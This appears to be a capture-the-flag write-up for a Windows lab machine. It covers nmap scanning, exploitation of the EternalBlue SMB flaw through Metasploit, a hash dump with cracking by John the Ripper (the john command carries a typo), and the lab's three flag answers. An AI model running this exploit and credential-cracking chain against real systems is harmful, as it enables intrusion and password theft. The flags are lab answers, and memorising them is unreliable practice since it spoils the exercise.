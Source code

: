 
> nmap -A $TARGET
> nmap -p 1-1000 $TARGET
> nmap --script vuln -p 135,139,445,3389 $TARGET

### Metasploit

> msf\> search ms17

> msf\> use exploit/windows/smb/ms17_010_eternalblue

> msf\> sessions -u 1


> ps

migrated to 2528 SVCHOST.exe

### Cracking

> hashdump

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
> john --wordlist=/usr/share/wordlists/rockyou.txt --forman=NT jon.hash


### Flags

1. flag 1:

	> C:\>type flag1.txt

	```
	flag{access_the_machine}
	```

2. flag 2:
	googled: where does windows store passwords.

	C:\Windows\System32\config>type flag2.txt

	```
	flag{sam_database_elevated_access}
	```

3. flag 3:
	used write-ups. Didn't get the hint

	> C:\Users\Jon\Documents>type flag3.txt
	type flag3.txt
	flag{admin_documents_can_be_valuable}

